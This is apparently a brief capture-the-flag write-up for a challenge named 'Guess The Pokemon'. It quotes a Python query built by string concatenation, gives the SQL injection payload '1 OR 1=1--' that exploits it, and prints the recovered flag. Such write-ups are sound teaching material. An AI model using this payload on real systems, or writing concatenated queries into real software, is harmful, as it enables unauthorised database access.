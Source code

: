 ## Guess The Pokemon

If you check the code, you will see that there is a sql injection vulnerability in it
```python
cur.execute("SELECT * FROM pokemon WHERE names=" + name + "")
```

payload
```sql
1 OR 1=1--
```

```
LITCTF{flagr3l4t3dt0pok3m0n0rsom3th1ng1dk}
```
